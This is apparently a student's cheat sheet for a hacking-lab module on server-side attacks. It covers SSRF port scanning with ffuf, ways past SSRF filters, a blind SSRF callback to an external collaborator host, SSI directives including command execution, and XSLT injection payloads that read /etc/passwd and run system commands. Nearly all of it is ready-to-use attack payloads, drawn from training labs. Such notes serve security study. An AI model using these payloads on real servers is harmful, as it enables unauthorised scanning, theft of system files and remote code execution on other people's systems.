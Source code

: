 ![[Server_Side_Attacks_Module_Cheat_Sheet.pdf]]

# SSRF
## Port Discovery
```shell-session
alakin2504@htb[/htb]$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>

[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```

## URL Fuzzing
example: 192.168.0.FUZZ

## Blind SSRF in Referer Header
Just use Referer: https://r80jbhuq4svofeubo41rcv8hq8wzkp8e.oastify.com/

## Blacklisted SSRF WAF
- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

#### Case Bypass![[Pasted image 20250410172855.png]]
## Redirection
Some applications perform local redirection instead of direct nagivation

We can exploit this to perform SSRF. Given a page has this redirection:
```
/product/nextProduct?path=...
```
And an API that fetches local API

```
product?....
```

https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

# SSTI
[[SSTI_ALL]]
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md

# SSI
Server-Side Includes (SSI) is a technology web applications use to create dynamic content on HTML pages. SSI is supported by many popular web servers such as [Apache](https://httpd.apache.org/docs/current/howto/ssi.html) and [IIS](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/serversideinclude). The use of SSI can often be inferred from the file extension. Typical file extensions include `.shtml`, `.shtm`, and `.stm`. However, web servers can be configured to support SSI directives in arbitrary file extensions. As such, we cannot conclusively conclude whether SSI is used only from the file extension.

=> STI leverages param vuln

| Print variables         | `<!--#printenv -->`                                  |
| ----------------------- | ---------------------------------------------------- |
| Change config           | `<!--#config errmsg="Error!" -->`                    |
| Print specific variable | `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` |
| Execute command         | `<!--#exec cmd="whoami" -->`                         |
| Include web file        | `<!--#include virtual="index.html" -->`              |

# XSLT
## Verify XSLT Vuln
![[Pasted image 20250411111427.png]]

## Information Disclosure
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

## Local File Inclusion (LFI) (XSLT ver2.0)
```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

## Local File Inclusion (LFI) (XSLT ver1.0)
```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

## Remote Code Execution (RCE)
```xml
<xsl:value-of select="php:function('system','id')" />
```
